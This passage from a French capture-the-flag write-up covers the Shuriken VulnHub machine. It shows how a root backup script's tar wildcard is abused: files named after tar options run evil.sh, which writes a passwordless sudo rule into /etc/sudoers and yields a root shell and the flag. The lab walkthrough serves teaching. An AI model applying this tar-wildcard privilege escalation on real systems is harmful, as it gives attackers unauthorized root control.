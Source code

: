 ```bash
# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest
```

## Shine like a star

On est dans un cas d'exploitation similaire au CTF [Pipe](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20devrandom%3A%20Pipe%20de%20VulnHub.md) où l'on va pouvoir exploiter utilisation du wildcard dans la commande `tar`. Je recommande la lecture de l'article  [Dangers of wildcards in bash](https://www.soliantconsulting.com/blog/dangers-wildcards-bash/) pour plus de détails.

Pour cela je créé un script bash qui va rajouter une ligne au `/etc/sudoers` puis des fichiers vides nommés après des options de `tar` qui seront pris comme tels à cause du wildcard :

```bash
$ echo '#!/bin/bash\necho "server-management ALL=(ALL:ALL) NOPASSWD: ALL" >> /etc/sudoers' > evil.sh
$ touch -- "--checkpoint=1"
$ touch -- "--checkpoint-action=exec=sh evil.sh" 
$ chmod 755 evil.sh
$ touch a
--- snip sleep 2 minutes here snip ---
$ sudo su
root@shuriken:/home/server-management/Documents# id
uid=0(root) gid=0(root) groups=0(root)
root@shuriken:/home/server-management/Documents# cd /root
root@shuriken:~# cat root.txt

d0f9655a4454ac54e3002265d40b2edd
                                          __                   
  ____  ____   ____    ________________ _/  |_  ______         
_/ ___\/  _ \ /    \  / ___\_  __ \__  \\   __\/  ___/         
\  \__(  <_> )   |  \/ /_/  >  | \// __ \|  |  \___ \          
 \___  >____/|___|  /\___  /|__|  (____  /__| /____  >         
     \/           \//_____/            \/          \/          
                                            __             .___
 ___.__. ____  __ __  _______  ____   _____/  |_  ____   __| _/
<   |  |/  _ \|  |  \ \_  __ \/  _ \ /  _ \   __\/ __ \ / __ | 
 \___  (  <_> )  |  /  |  | \(  <_> |  <_> )  | \  ___// /_/ | 
 / ____|\____/|____/   |__|   \____/ \____/|__|  \___  >____ | 
 \/                                                  \/     \/ 
  _________.__                 .__ __                          
 /   _____/|  |__  __ _________|__|  | __ ____   ____          
 \_____  \ |  |  \|  |  \_  __ \  |  |/ // __ \ /    \         
 /        \|   Y  \  |  /|  | \/  |    <\  ___/|   |  \        
/_______  /|___|  /____/ |__|  |__|__|_ \\___  >___|  /        
        \/      \/                     \/    \/     \/
```

Un CTF bien conçu, merci à son auteur :)

*Publié le 15 novembre 2022*
